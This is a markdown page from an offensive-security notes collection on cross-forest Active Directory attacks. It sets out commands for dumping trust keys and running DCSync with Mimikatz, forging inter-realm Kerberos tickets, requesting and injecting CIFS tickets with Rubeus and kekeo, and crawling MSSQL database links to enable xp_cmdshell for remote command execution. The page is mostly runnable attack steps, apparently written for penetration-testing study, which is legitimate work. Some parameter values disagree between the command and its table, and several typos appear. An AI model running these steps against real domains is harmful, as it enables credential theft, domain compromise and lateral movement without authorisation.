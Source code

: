 ```yaml
---
title: Cross Forest Attacks
category: Active Directory
order: 6
---
```


In this section we are going to abuse trusts between forests.

# Across Forests using Trust Tickets

First we need to retrieved the Trust Key:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

> **Note**: The access we will have will be limited to what our DA account is configured to have on the other Forest!

An **inter-realm TGT** can be forged:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /rc4:cd3fb1b0b49c7a56d285fffdd1399231 /service:krbtgt /target:extcorp.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```
* **Invoke-Mimikatz**

|                   **Parameter**                   |                 **Description**                |
|:-------------------------------------------------:|:----------------------------------------------:|
| /domain:sub.corp.local                            | Current Domain FQDN                            |
| /sid:S-1-5-21-268341927-4156873456-1784235843     | Current Domain SID                             |
| /user:Administrator                               | User to impersonate                            |
| /rc4:a9b30e5b0dc865eadcea9411e4ade72d             | krbtgt hash of Current Domain                  |
| /service:krbtgt                                   | krbtgt service to abuse                        |
| /target:extcorp.local                             | Target domain                                  |
| /tiket:C:\Windows\Temp\trust_tkt.kirbi            | File to store the ticket                       |



Now we can request a TGS for `cifs` service on the dc of the trusted forest.

* Asktgs.exe (kekeo_old)

```powershell
.\asktgs.exe c:\temp\trust_forest_tkt.kirbi CIFS/dc01.extcorp.local
```

* Rubeus.exe
```powershell
.\Rubeus.exe asktgs /ticket:trust_forest_tkt.kirbi /dc:dc01.extcorp.local /service:CIFS/dc01.extcorp.local
```

And inject the ticket on the current session:

```powershell
.\kirbikator.exe lsa .\CIFS.dc01.extcorp.local.kirbi
```
> **Note**: We can not list all the file system of other forest. We can only list shared folders.

```
ls \\dc01.extcorp.local\share\
```

# Trust Abuse with MSSQL Server

MSSQL Servers are generally deployed in plenty windows domain. SQL Servers provide very good options for lateral movement as domain users can be mapped to dabase roles.

A fantastic tool to abuse MSSQL is `PowerUpSQLl`: 

* [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
```powershell
Import-Module .\PowerUpSQL.psd1
```

> **Note**: Important! Write `Import-Module` and import which have **PSD1** extension.

We can discover SQL servers:

```powershell
Get-SQLInstanceDomain
```

We can check accessibility:

```powershell
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
Gather information:

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of databases links between Microsoft SQL Servers, it is possible to execute stored procedures which means RCE.

Database link works even across forest trusts.

```powershell
Get-SQLServerLink -Instance mssql.corp.local -Verbose
```

So we can execute queries on the remote Server Link, see if this server has others links and above, instead of doing it manually that will be explained in a note, exists a script that crawls all the mssql server links.

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Verbose
```

> **Note**: Manual way:
>
> See if has a server link:
> `select * from master..sysservers`
>
> Openquery() function can be used to run quieries on a linked database:
> `select * from openquery("CORP-SQL1", 'select * from master..sysservers')`
>
> `select * from openquery("CORP-SQL1", ''select * from openquery("CORP-SQL2", 'master..sysservers'')')`

To execute commands from MSSQL server we need to use `xp_cmdshell`. If `rpcout` is enabled `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "other-sql"
```

And finally:

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Query "exec master..xp_cmdshell 'whoami'"
```